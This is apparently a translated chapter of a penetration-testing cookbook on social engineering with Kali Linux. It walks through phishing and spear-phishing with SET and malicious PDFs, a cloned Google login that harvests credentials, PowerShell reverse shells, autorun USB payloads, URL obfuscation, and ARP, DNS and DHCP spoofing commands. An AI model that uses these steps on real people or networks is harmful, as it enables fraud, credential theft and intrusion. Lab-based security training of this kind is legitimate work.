

# 第五章：社会工程学

本章将涵盖以下主题：

+   网络钓鱼攻击

+   垃圾邮件钓鱼攻击

+   使用 SET 进行凭证收集

+   网站劫持

+   PowerShell 攻击向量

+   二维码攻击向量

+   感染性媒体生成器

+   混淆和操控 URLs

+   DNS 欺骗和 ARP 欺骗

+   DHCP 欺骗

# 介绍

社会工程学是渗透测试的一个独特方面。社会工程学可以通过电子手段来实施，正如我们在接下来的配方中将看到的那样。然而，社会工程学也可以应用于物理渗透测试甚至数据收集。它变成了一门关于人类本性和文化规范的艺术。我们利用人类已知的自然倾向来帮助我们实现或获得我们想要的东西。

# 网络钓鱼攻击

网络钓鱼攻击是针对任何个人或实体的松散攻击。它们的主要价值在于大规模分发，期望通过大范围的分发获得一小部分点击。这些攻击有时用于渗透测试，特别是针对客户所拥有的特定域。这些攻击专门针对电子邮件。由于它们的大规模分发，这些攻击常常会被许多先进的电子邮件垃圾邮件过滤公司快速捕捉到。但只要有一个能够通过并被点击，就足够了。

在本配方中，我们将创建并发起一个通用的网络钓鱼攻击。

# 做好准备

让我们确保以下先决条件：

+   Kali Linux 正在运行，并且您已经以 root 用户登录

+   您需要一些电子邮件账户来使用和/或最好有一个实验室的 SMTP 服务器。

# 如何做...

我们将使用**社会工程工具**（**SET**）来创建一个网络钓鱼攻击：

1.  从应用程序菜单中选择社会工程工具 | SET 社会工程工具包。您将看到以下界面：

初始工具包设置界面

1.  选择顶部选项：`1) 社会工程攻击`。

1.  选择`5) 大规模邮件发送攻击`。

1.  选择`2) 电子邮件攻击大规模邮件发送器`。

1.  系统现在会要求您选择一个包含每行一个电子邮件地址的电子邮件列表文件。请输入要使用的路径和文件名。在我的例子中，我已在`/root/emaillist.txt`准备了一个列表：

SET 大规模邮件发送器对话框界面

1.  现在，我们将被问到如何使用我们的电子邮件攻击，选择通过 Gmail 账户还是自己的服务器/中继。为了方便起见，我将使用一个临时的 Gmail 账户；然而，在实际操作中，我通常会使用一个开放中继服务器。选择 `1\. 使用 Gmail 账户进行电子邮件攻击`。

切勿使用任何可能泄露个人身份的服务器或账户。最好的方法是使用开放中继服务器。如果你仔细寻找，会发现有很多这样的服务器。

1.  输入你的临时 Gmail 账户：`johndoe@example.com` 并按 *Enter*。

1.  输入一个作为发件人显示给用户的名称：`John Doe`。

1.  输入账户密码并按 *Enter*。

1.  决定是否要以高优先级发送邮件，并输入 `yes` 或 `no`，然后按 *Enter*。

1.  决定是否要附加一个文件。在我的例子中，我要附加一个含有恶意载荷的文件。所以，我将输入 `y` 然后按 *Enter*。

1.  我将附加我的 `/root/salary.pdf` 恶意载荷文件。

你需要附加一个恶意载荷或一个恶意链接，才能使钓鱼攻击生效。根据你的测试需求选择合适的方式并继续操作。

1.  输入邮件主题。在我的例子中，我将主题设为 `Salary Info`。

1.  我可以选择以 HTML 格式或纯文本格式发送邮件。我为了简便起见将选择纯文本格式。接下来，我将按 *Enter*。

如果你计划嵌入恶意链接，你必须选择 HTML 格式。如今，大多数用户已经习惯看到 HTML 格式的页面，通过纯文本发送可能会增加他们怀疑邮件是欺诈的可能性。但出于示范目的，这样做也是可行的。

1.  现在，输入邮件正文。我打算让它简短而简单：

```
Hi Jane,
Here is the Salary Information you requested. 
Thanks 
John 
END 
Hi 
```

1.  然后，它会输出邮件发送到的电子邮件地址。

正确编写邮件内容和附件或链接非常重要，这样你才有更大的成功机会。因此，务必仔细检查拼写和语法问题。

# 定向网络钓鱼攻击

定向网络钓鱼攻击是专门针对个人或实体的。其主要价值在于它们针对的是一小群用户。这类攻击在渗透测试中被广泛使用，通常是针对客户的特定电子邮件地址。你必须花更多时间研究客户，收集信息，如邮件签名、标志，并了解客户的通信内容。通常，你可能会注册一个相似的域名，这样当他们看到“发件人”时，会觉得这个域名似曾相识。

在这个步骤中，我们将创建并启动一个定向的网络钓鱼攻击。

# 准备工作

让我们确保以下前提条件：

+   Kali Linux 正在运行，并且你以 root 身份登录。

+   你需要一些电子邮件账户和/或一个实验室 SMTP 服务器。

# 如何操作...

现在我们将使用 SET 创建一个针对性网络钓鱼攻击：

1.  从应用程序菜单中，选择社会工程工具 | SET 社会工程工具包。你将看到以下界面：

初始 setookit 界面

1.  选择顶部选项：`1) 社会工程攻击`。

1.  选择`1) 矛刺钓鱼攻击向量`。

1.  选择`1) 执行大规模电子邮件攻击`。

1.  从这里开始，我们将有多个可选的攻击向量。根据你要发送的邮件以及你认为客户所拥有的软件来选择合适的攻击向量。为了测试目的，我们将使用`13) 嵌入式 EXE 的 Adobe PDF 社会工程`。

1.  这样，攻击将嵌入到提供的 PDF 或空白 PDF 中。为了测试，我们将直接使用`2) 使用内置的空白 PDF 进行攻击`。

当进行矛刺钓鱼渗透测试时，你可能有一些期望的结果。然而，重要的是要记住，这些结果之一是避免引起怀疑。因此，邮件越是看起来合适，你就越有利。例如，如果你在医疗行业中进行这类操作，可以下载一些 HIPAA 法规的 PDF 格式文件，插入恶意软件，并将其发送给组织中的相关人员。当他们打开它时，他们会看到他们预期的内容，从而帮助你掩盖攻击的事实，避免引起他们的警觉。

1.  接下来，你有几个选项来选择回调方式。反向 shell 或反向 meterpreter 总是不错的选择。选择`1) Windows 反向 TCP shell`。

1.  我们将设置我们的 Kali 盒子 IP 地址。使用你适当的 IP 地址；在我的例子中，我将使用`192.168.56.10`。

1.  设置回连的端口。为了测试，我将使用`8123`。

1.  选择`2\. 重命名文件，我想要酷一点。`并将文件重命名为适合使用情境的名称。

1.  对于这个，我们将选择`1\. 电子邮件攻击单一电子邮件地址`。

1.  选择`1\. 预定义模板`。

在大多数情况下，你会希望创建自己的模板，但正如我们在钓鱼攻击章节中做的那样，你可以参考之前的内容。此外，大多数垃圾邮件引擎知道这些内置模板的格式，因此攻击将相对容易被防御。

1.  选择一个可用的模板。`3: 你看过这个吗？`对于我们的示例来说就可以了。

1.  输入发送邮件的地址`johndoe@example.com`。

1.  在这种情况下，让我们看看是否能找到一个开放的中继来转发邮件。可以在谷歌上搜索一下，或者尝试使用你的 ISP 邮件服务器。选择`2\. 使用你自己的服务器或开放中继`。

如果找不到中继服务器，你可以回退到一个 Gmail 账户，并使用第 5.1 节中列出的步骤。

1.  输入合适的发件人地址：`Janedoe@example.com`。

1.  输入合适的发件人名称：`Jane Doe`。

1.  如果你的中继服务器需要用户名，你可以根据需要输入用户名信息。我会把我的留空。

1.  如果你的中继服务器需要密码，你可以根据需要输入密码信息。我会把我的留空。

1.  输入邮件服务器地址或**完全限定域名**（**FQDN**）。

1.  输入中继的 SMTP 服务端口号。我将我的设置为`25`。

1.  我将选择“否”来标记消息为低优先级。

1.  最后，我的服务器支持 TLS 吗？为此，我也会选择“否”。

1.  从这里，你将自动获得设置监听器的选项，并会自动启动`msfconsole`并为你设置相应的监听器。由于我喜欢使用 Armitage，所以我会通过它来打开监听器。

请参考第四章中的配方，*在目标中查找漏洞*，以及*使用 Armitage 进行的基础漏洞攻击*和*使用 Armitage 进行的高级攻击*，学习如何在 Armitage 中打开监听器。

1.  我打开了邮件中的 PDF，但会看到一个空白的 PDF。但注意，在我的 Armitage 控制台中，现在会显示与 Windows XP 机器的连接。

我在我的 Windows XP 机器上下载并使用了旧版的 Acrobat Reader。Windows XP 机器，打开了 hipaaregs.pdfKali Linux Armitage 处理器屏幕，显示 XP 机器已连接。再次强调，许多防病毒和垃圾邮件引擎都熟悉这些攻击，除非你花时间精心设计信息并创建自定义负载，否则检测率会很高。

# 使用 SET 进行凭证收集

凭证收集可以与多种不同类型的攻击一起使用，但最终目标是让用户相信他们已经到达了他们想访问的网站，比如 Facebook 或 Google，并在他们尝试登录时窃取他们的凭证。

在本配方中，我们将模拟一个网站并进行该网站的凭证收集。

# 准备工作

让我们确保以下前提条件：

+   Kali Linux 正在运行，你已经以 root 用户登录。

+   临时将接口从你的某个 Windows 测试机移到 NAT 网络。

# 如何操作……

我们现在将伪装成一个真实的网站来收集凭证：

1.  在应用菜单中，选择社会工程工具 | SET 社会工程工具包。你将看到以下界面：

初始 setoolkit 界面

1.  选择顶部选项，`1) 社会工程攻击`。

1.  选择`2) 网站攻击向量`。

1.  选择`3) 凭证收集攻击方法`。

1.  选择`1) 模板`。

1.  然后系统会要求你输入邮局的 IP 地址。请输入 Kali 在 NAT 网络上的 IP 地址。你可以打开另一个终端窗口并输入`ifconfig`。我将输入`10.0.2.4`：

Kali 机器的 ifconfig 输出

1.  我们将获得一个预定义模板列表，所以我们选择`2. Google`。

1.  收集器将自动启动并显示在你的屏幕上。

1.  从 Windows 机器上，登录并浏览到你之前输入的 Kali 设备的 IP 地址：

假 Google 登录页面

1.  你会看到一个非常熟悉的登录界面；然而，顶部显示的是一个 IP 地址，而不是 Google。

为了让这个攻击更加可信，你需要隐藏 IP 地址。你有什么想法吗？有两种选择。首先，如果你之前已经攻破了设备，可以修改主机文件；另外，你可以使用 DNS/DHCP 欺骗。

1.  输入测试凭证并点击“登录”：

假登录界面

1.  注意，在 Windows 机器上，你会被重定向到 Google。但是，看看 `SET`，你会发现我们已经收集到了凭证：

凭证设置输出

1.  输入 `Control-C` 并按 *Enter*；这将让你返回到 `SET` 控制台。

# 网页劫持

网页劫持是一种方法，用户会看到一个提示说网站已迁移的页面，当他们被重定向时，恶意软件将被插入到浏览器/计算机中。

在本教程中，我们将进行网页劫持。

# 准备就绪

让我们确保满足以下前提条件：

+   Kali Linux 正在运行，你已作为 root 登录

+   暂时将你的其中一台 Windows 测试机的网络接口切换到 NAT 网络

# 如何操作...

现在我们将通过模拟网站重定向来进行网页劫持：

1.  从应用程序菜单中选择社会工程学工具 | SET 社会工程学工具包。你将看到以下界面：

初始设置工具界面

1.  选择顶部选项，`1) 社会工程学攻击`。

1.  选择 `2) 网站攻击向量`。

1.  选择 `5) 网页劫持攻击方法`。

1.  我们将选择 `2) 网站克隆器`。

1.  再次输入帖子的 IP 地址。在这种情况下，我的 IP 是 `10.0.2.4`。

1.  输入你想要克隆的网址。你可以使用一个示例网址：[`us-123hiking.simplesite.com/.`](http://us-123hiking.simplesite.com/)

1.  系统将自动克隆该网站并启动 `msfconsole`。

1.  从这里，打开你的一台 Windows 虚拟机。我将使用 Windows 7 机器并浏览到 `http://10.0.2.4`：

假网站界面

1.  我看到顶部有一个链接，于是我点击它打开对话框：

运行对话框

1.  然后，我点击从机器上运行。

1.  从这里，如果我回到 Kali，我会看到一个新的会话已经打开：

MSF 利用会话连接屏幕

1.  在 `msf >` 提示符下输入 `sessions 1` 并按 *Enter*，这将让你连接到计算机。

1.  输入 `sysinfo` 并按 *Enter* 获取系统信息。

1.  从这里，你可以在 `msfconsole` 中尝试其他命令进行操作，但此时你已经可以访问这台 PC。

# PowerShell 攻击向量

在本配方中，我们将使用 PowerShell 来回连到我们的 Kali 主机。PowerShell 已被包括在 Windows Vista 及以后版本中，并且由于其外壳功能，它已成为一个非常流行的攻击向量。我们不会专注于如何将脚本传送到目标，因为在其他配方中已经涵盖了相关选项；这里只专注于创建恶意载荷。

# 准备就绪

让我们确保以下先决条件：

+   Kali Linux 正在运行，你已以 root 身份登录。

+   暂时将你的 Windows 测试机器的网络接口切换到 NAT 网络。

# 如何操作...

现在我们将使用 PowerShell 来攻击一个主机：

1.  从应用程序菜单中选择社交工程工具 | SET 社交工程工具包。你将看到以下界面：

初始 setoolkit 界面

1.  选择顶部选项，`1) 社交工程攻击`。

1.  选择`9) PowerShell 攻击向量`。

1.  选择`2) PowerShell 反向 Shell`。

1.  输入你的 Kali 主机的 IP 地址`192.168.56.10`。

1.  输入监听端口`8123`。

1.  当询问是否启动监听器时，选择“否”，因为我们将使用 Metasploit 来完成这个操作。

1.  一个文件将被创建在以下位置`~/.set/reports/powershell/powershell.reverse.txt`。将这个文件移到 Windows 机器，并将其扩展名从 TXT 改为 PS1。

1.  由于我们将使用`msfconsole`作为监听器，让我们通过在终端窗口输入以下命令来准备它。我们将使用我们的 Kali Linux 主机的专用 IP 地址 `192.168.56.10`，以及我们的监听端口`8123`：

```
cd 
service postgresql start 
msfconsole 
handler -p generic/shell_reverse_tcp -H 192.168.56.10 -P 8123 
```

MSF 初始化界面

1.  在你的 Windows 7 机器上，打开命令提示符，并输入以下内容：

```
powershell -ExecutionPolicy Bypass -file c:\share\powershell.reverse.ps1
```

PowerShell 输出

1.  你会注意到我们现在在会话 1 上有一个连接，因此让我们通过输入`sessions 1`来打开它。从这里，我们可以输入一个简单的命令，例如`dir`来获取目录列表：

msf 输出的目录内容

# QRCode 攻击向量

在本配方中，我们将为我们拥有的网站生成一个二维码，以收集凭据。这个二维码可以通过多种方式发送，比如电子邮件、Facebook、Twitter 帖子，甚至可以作为传单的一部分留在目标车辆上。我们将把这个二维码发送给我们的目标。

# 准备就绪

让我们确保以下先决条件：

+   Kali Linux 正在运行，你已以 root 身份登录。

# 如何操作...

我们将创建一个二维码，指向一个网站：

1.  从应用程序菜单中选择社交工程工具 | SET 社交工程工具包。你将看到以下界面：

初始 set 工具包界面

1.  选择顶部选项`1) 社交工程攻击`。

1.  选择`8) QRCode 生成器攻击向量`。

1.  输入恶意 URL；为了测试，我们将输入`www.packtpub.com`。

1.  它将生成图像文件并提供其位置。

1.  在你的 Kali 虚拟机上打开图像文件，如下所示：

生成的二维码

1.  大多数手机会扫描此图像并将你带到指定的网站。

苹果 iOS 需要一个第三方应用——不过，应该已经包含在 iOS 11 中。

# 还有更多...

单独来看，这个攻击可能显得微不足道，但它是一个非常有效的攻击。首先，你几乎可以设计任何你想要的网站，并利用它捕获凭证。试想一下，在公司停车场放置传单，写着扫描此二维码并注册以获得一张价值 5.00 美元的 Starbucks 礼品卡。你认为这些人中有多少可以获取到重要信息？

# 感染介质生成器

在这个教程中，我们将构建一个可以放在 USB、CD 或 DVD 上的感染性文件。我们将生成一个恶意的 Payload，当插入受害者 PC 时，它将自动运行。我们将模拟执行过程；然而，如果你有实体测试机器，测试起来会更容易。

# 准备就绪

让我们确保以下先决条件：

+   Kali Linux 正在运行，你已以 root 用户登录

+   Windows 虚拟机已启动并运行

# 如何操作...

我们将构建我们的感染介质：

1.  从“应用程序”菜单中选择 社会工程工具 | SET 社会工程工具包。你将看到以下界面：

初始工具包界面

1.  选择顶部选项 `1) 社会工程攻击`。

1.  选择 `3) 感染介质生成器`。

1.  选择 `2) 标准 Metasploit 可执行文件`。

1.  让我们选择 `2) Windows 反向 _TCP Meterpreter`。

1.  对于 `LHOST`，使用你 Kali 机器的 IP 地址 `192.168.56.10`。

1.  输入回调端口 `8123`。

1.  然后它将生成 Payload。现在开始启动监听器：

Payload 生成输出

1.  从这里开始，我们有一个自动运行选项，可以将其刻录到 DVD 或 CD 上，或放入 USB。用虚拟机模拟这一过程有些困难，因此我们将直接从 `~/.set/autrun/program.exe` 复制 `program.exe` 文件，并将其放到我们的 Windows 7 测试机器上执行。

1.  从你的 Windows 机器上，打开模拟自动运行执行的 `program.exe` 文件。注意，在运行时，没有可见的执行迹象。如果它是从 USB 驱动器自动运行的情况也是如此：

在 Windows 虚拟机上执行 Payload

1.  从我们的 Kali 机器上，你会注意到我们有一个新的会话连接。输入 `sessions` 查看已连接的设备：

MSF 会话已连接

1.  输入 `sessions 1`，从这里开始，我们已经在 meterpreter 会话中连接到目标机器；为了验证我们的连接，输入 `sysinfo`：


MSF sysinfo 输出

# 还有更多...

这是一个非常适合 USB 闪存驱动器的攻击方法。如果您正在与公司合作进行渗透测试，可以将其散布在公司入口和停车场周围。很有可能至少会有几个 USB 驱动器被插入，从而让您访问目标网络。

# 混淆和操控 URL

混淆和操控 URL 早已被用于欺骗最终用户点击恶意网站。这些技术可以通过各种方式实现，如使用 URL 缩短、隐藏 URL、使用 IP 地址和其他功能。这些方法可以应用于电子邮件或其他互动文档。

在本教程中，我们将探讨几种混淆或操控 URL 的方法。

# 准备开始

让我们确保以下先决条件：

+   Kali Linux 正在运行，您已以 root 身份登录

# 如何操作...

现在我们将回顾几种混淆 URL 的方法：

# URL 缩短器

我们首先来使用 URL 缩短器：

1.  在您的主 Kali 屏幕上，打开 Firefox 浏览器。

1.  访问[`goo.gl`](https://goo.gl)链接，输入您想缩短的 URL。以下是我使用的示例：

[`www.nytimes.com/2017/05/15/technology/personaltech/heres-how-to-protect-yourself-from-ransomware-attacks.html`](https://www.nytimes.com/2017/05/15/technology/personaltech/heres-how-to-protect-yourself-from-ransomware-attacks.html)

1.  选择“我不是机器人”并点击“缩短 URL”：


1.  您将获得一个缩短后的 URL；在我的例子中，它是`goo.gl/0Dhuon`。当您将其输入浏览器时，您将被带到原始链接。

# URL 操控

现在我们将操作一个 URL：

在您的主 Kali 屏幕上，打开 Firefox 浏览器。

有一种方法是使用@符号在 URL 中帮助伪造 IP 地址。在浏览器中，尝试输入`http://www.gooogle.com@www.packtpub.com`。根据您的浏览器，您可能会或不会看到错误信息。例如，先在 Firefox 中尝试，然后在 Chrome 中试试看。在@符号前的部分被视为网站的登录凭证，如果该网站不需要身份验证，您将直接进入。

在写这本书时，您将在一个页面上获得确认，并会自动重定向到另一个页面。

# 简单的 URL 链接误导

我们将使用 URL 链接重定向攻击：

1.  在 Kali 中，打开一个文档编辑器。我将使用 Google Docs。

1.  输入一个简单的短语，例如`Please signup at facebook.com for the promotion`：


1.  高亮显示 facebook.com，右键点击并选择链接...：


1.  输入不同的 URL 地址，然后点击应用：


1.  现在，如果点击链接，它会将你转发到目标网站，而不是显示的网站：


# 还有更多内容...

这些与网站、电子邮件、文档和 PDF 文件结合的混淆方法可能会极其棘手。用户往往会太快点击链接，以至于没有意识到自己被带到了错误的网站。如果你结合注册与目标域名相近的域名，它们通常会被最终用户忽视。

以 `google.com` 被重定向到以下之一为例——`g00gle.com`、`goog1e.com` 和 `goog1e.com`。这些常常会被普通用户轻易忽视，你可以拥有类似的网站。

# DNS 欺骗和 ARP 欺骗

在这个食谱中，我们将讨论如何进行 DNS 和 ARP 欺骗。在我们过去的几个食谱中，我们展示了利用 IP 地址进行的攻击——即 Kali 机器的 IP。然而，在实际攻击中，这种方式很容易被发现。攻击的关键是让它看起来像是用户访问的是正确的网站，并且尽可能真实。这个过程的第一步是进行 DNS 欺骗。

# 正在准备中

让我们确保以下先决条件：

+   Kali Linux 正在运行，你已作为 root 用户登录。

+   暂时将你的 Windows 测试机器的接口切换到 NAT 网络

# 如何操作...

我们现在将使用 ARP 欺骗将用户重定向到一个假网站：

1.  点击以下图标打开一个新的终端窗口。 

1.  我们需要确保使用的接口启用了混杂模式，并且需要确保 IP 转发功能已经开启。我们需要创建一个主机文件来欺骗特定的网站或一组网站。因为我们在几个测试示例中使用了一个登山网站，所以我们将欺骗 `us-123hiking.simplesite.com`，并将其指向 `10.0.2.4`，这是我的 Kali 机器在 `eth0` 上的 IP 地址。请输入以下命令：

```
cd 
ifconfig eth0 promisc
echo 1 > /proc/sys/net/ipv4/ip_forward
touch fakehost.txt
echo '10.0.2.4 us-123hiking.simplesite.com' > ~/fakehost.txt
```

1.  现在，我们基本上要成为中间人；我们将通过 ARP 欺骗路由器的 IP 地址（默认网关）`10.0.2.1` 和 ARP 欺骗我们的 Windows 机器的受害者 IP 地址 `10.0.2.5` 来实现。然后，使用我们刚刚创建的主机文件启动 `dnsspoof`：

```
arpspoof -t 10.0.2.1 10.0.2.4 > /dev/null 2>&1 & 
arpspoof -t 10.0.2.5 10.0.2.4 > /dev/null 2>&1 & 
dnsspoof -f ~/fakehost.txt 
```

ARP 欺骗可能需要几分钟的时间才能完成，所以请耐心等待；在一切准备好之前，最好不要启动你的 Windows 机器。另外，你可能需要检查所有虚拟机的网络接口是否处于混杂模式。

1.  打开你的 Windows 测试机器，打开命令提示符。输入以下命令。你会注意到，登山网站将指向我们的 Kali 机器：

```
ipconfig /flushdns 
ping www.yahoo.com 
ping us-123.hiking.simplesite.com 
```

Windows 命令 ping 输出终止你的 Kali 终端会话，清除你 Windows 机器的 DNS 缓存，然后重新测试。你现在应该能够访问到 `us-123.hiking.simplesite.com` 的真实 IP 地址。

# DHCP 欺骗

在这个教程中，你将学习关于 DHCP 欺骗的知识。

DHCP 欺骗可以用来将所有数据包通过你的 Kali 盒子进行路由，或者可以将你的 DNS 服务器推送给网络上的主机。这个攻击实际上与时机非常相关。需要注意的是，这个攻击并不总是有效，因为网络上有真实的 DHCP 服务器和我们的 DHCP 欺骗服务器。DHCP 工作的方式是，受害者收到的第一个响应将是它使用的响应，无论它收到多少个响应。因此，希望的是你的响应能比官方的 DHCP 服务器更快。

# 准备就绪

让我们确保以下先决条件：

+   Kali Linux 正在运行，你已经以 root 身份登录

+   Windows 系统已关闭

# 如何操作...

我们现在将在网络上执行 DHCP 欺骗：

1.  通过点击以下图标打开一个新的终端窗口。 

1.  我们需要确保我们使用的接口处于混杂模式，并且需要确保 IP 转发已启用。然后我们将以 GUI 模式启动`ettercap`：

```
ifconfig eth0 promisc 
echo 1 > /proc/sys/net/ipv4/ip_forward
ettercap -G
```

1.  在`ettercap`的主 GUI 界面中，我们想要开始嗅探流量。点击 Sniff | Unified sniffing。然后，选择我们将使用的接口。为了测试目的，我们将使用我们的主机专用接口`eth1`，并点击 OK：

ettercap 主界面

1.  从这里，我们将有一个新的选项可以选择 MITM | DHCP 欺骗...

1.  输入一个 IP 池。在这种情况下，我将使用我们主机专用网络范围中的`192.168.56.100-192.168.56.110`，子网掩码为`255.255.255.0`，DNS 服务器地址为`192.168.56.10`，这是我的 Kali 虚拟机的 IP 地址。点击 OK：

ettercap mitm dhcp 欺骗对话框

1.  现在，启动你的 Windows 系统，打开命令提示符，并输入以下内容。注意，提供的 IP 地址在我们指定的范围内，你也可以在`ettercap`中看到响应是从那里提供的：

```
ipconfig
```

Windows ipconfig 输出因此，有几点需要注意。你会注意到默认网关没有被填充。这是因为我们在主机专用网络上没有默认网关。另外，由于没有默认网关，你将无法将流量转发到外部网络。

# 还有更多...

基于我们的测试环境，这个场景在使用物理机器时比使用虚拟机更容易测试。如果你想看到更好的示例，可以尝试将你的 Kali 机器连接到一个可以访问互联网的物理主机所在的网络段。
